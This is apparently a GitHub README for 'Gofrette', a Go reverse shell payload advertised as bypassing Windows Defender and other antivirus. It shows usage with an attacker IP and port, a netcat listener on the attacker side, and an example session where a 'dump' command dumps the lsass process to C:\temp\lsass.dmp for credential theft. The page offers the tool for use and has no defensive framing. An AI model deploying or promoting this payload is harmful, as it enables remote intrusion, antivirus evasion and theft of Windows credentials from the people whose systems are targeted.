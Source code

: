 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender and many others anti-virus.
<p align="center">
  <a href="" rel="noopener">
 <img src="https://antiscan.me/images/result/aB0uZL38cghZ.png
"> </a>


## Releases
https://github.com/Enelg52/Gofrette/releases

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]
```

## Example
````raw
//target
PS C:\Users\enelg> go run .\gofrette.go -a 127.0.0.1 -p 1234
Connected... :)
````

```raw
//attacker
❯ rlwrap nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 127.0.0.1 37458
C:\Users\enelg>help
exit : exit terminal
dump : dump lsass in /tmp
C:\Users\enelg>dump
[+] Get process id
[+] Dump process 900
[+] Process dumped
[+] The dump is under C:\temp\lsass.dmp
C:\Users\yanng>
```


## Contributing
Pull requests are welcome !

